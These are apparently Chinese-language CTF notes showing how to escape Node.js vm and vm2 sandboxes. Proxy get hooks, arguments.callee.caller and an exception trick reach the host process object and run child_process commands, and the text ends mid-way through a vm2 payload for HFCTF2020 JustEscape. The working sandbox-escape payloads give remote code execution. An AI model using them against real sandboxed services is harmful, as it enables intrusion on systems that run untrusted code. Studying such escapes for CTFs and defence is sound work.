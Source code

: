 
Proxy 构造函数接收两个参数：<br />target：被代理的目标对象；<br />handler：一个对象，属性名是hook函数，属性值是相应的钩子函数的实现。钩子函数会在对目标对象的操作被拦截时被调用。
```javascript
const vm = require("vm");

const script = 
`
(() =>{
    const a = new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('whoami').toString();
        }
    })
    return a
})()
`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res.abc)
```
相当于在创建一个Proxy对象时，设置空target，在接受的函数里面，把之前恶意利用的函数写入get的值里面。<br />还可借助异常
```javascript
const vm = require("vm");

const script = 
`
    throw new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('whoami').toString();
        }
    })
`;
try {
    vm.runInContext(script, vm.createContext(Object.create(null)));
}catch(e) {
    console.log("error:" + e) 
}
```
```javascript
TypeError: string "�깬��\86139

```
报错但能正常整出rce回显。
<a name="xKWcO"></a>
# [HFCTF2020]JustEscape
沙盒逃逸参考：[https://github.com/patriksimek/vm2/issues/225](https://github.com/patriksimek/vm2/issues/225)<br />原始payload
```javascript
"use strict";
const {VM} = require('vm2');
const untrusted = '(' + function(){
	TypeError.prototype.get_process = f=>f.constructor("return process")();
	try{
		Object.preventExtensions(Buffer.from("")).a = 1;
	}catch(e){
		return e.get_process(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
	}
```